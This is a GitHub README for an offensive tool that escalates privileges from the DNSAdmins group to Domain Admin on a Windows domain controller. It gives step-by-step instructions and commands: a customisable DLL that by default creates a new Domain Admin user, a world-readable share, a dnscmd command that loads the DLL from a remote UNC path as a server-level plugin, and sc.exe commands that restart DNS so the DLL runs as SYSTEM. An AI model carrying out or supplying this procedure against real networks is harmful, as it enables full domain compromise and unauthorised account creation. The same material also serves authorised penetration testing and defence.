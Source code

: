 # DNSAdmins-Hijinx
Everything you need to escalate your privileges from DNSAdmins to Domain Admin

Derived Entirely From: <br />
[Feature, not bug: DNSAdmin to DC compromise in one line](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) <br />

I just wanted a repo I could access from anywhere and have a working dnscmd.exe and DLL I can quickly customize for my needs and compile.  Ultimately, I would like to recreate the RPC calls dnscmd.exe makes in PowerShell/.NET so I don't need to drop so many files on disk.

To use:

1. Open the project in Visual Studio, update the DnsPluginInitialize function of dnshijinx.cpp to execute whatever command you would like to run as SYSTEM on the domain controller and compile the project. (Current command creates a new user and adds them to the Domain Admins Group)
2. Copy the DLL to a place the DC can reach.  Easiest way to do this is to create a share and grant read access to the "Everyone" SID.
3. Copy the dnscmd folder to disk.  dnscmd.exe has a dependency in ./en-US/dnscmd.exe.mui that it needs to function.
4. With a user in the DNSAdmins group, run the following command (if it's the primary DNS, make sure you use IPs as you may have issues resolving hostnames):
```
dnscmd.exe <ip-of-dc> /config /serverlevelplugindll \\<ip-of-share>\path\to\dll
```
5. Restart the DNS service on the DC:
```
sc.exe \\<ip-of-dc> stop dns
sc.exe \\<ip-of-dc> start dns
```
6. Confirm whatever action you wished to run on the DC as SYSTEM has been performed.
